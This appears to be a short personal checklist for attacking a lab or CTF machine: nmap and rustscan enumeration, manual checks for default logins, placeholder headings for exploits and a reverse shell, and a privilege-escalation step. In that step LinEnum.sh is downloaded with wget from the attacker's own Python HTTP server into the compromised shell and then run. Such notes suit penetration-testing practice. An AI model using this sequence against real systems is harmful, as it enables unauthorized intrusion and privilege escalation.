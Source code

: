 ## Setting
0.export ip\ 
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server python3 -m http.server 8080 to transfer the linEum.sh\
4.From the reverse shell, wget http://$myIP:8080 . to recieve linEum.sh\
5.Give access. chmod +x linEum and ./linEum\
 
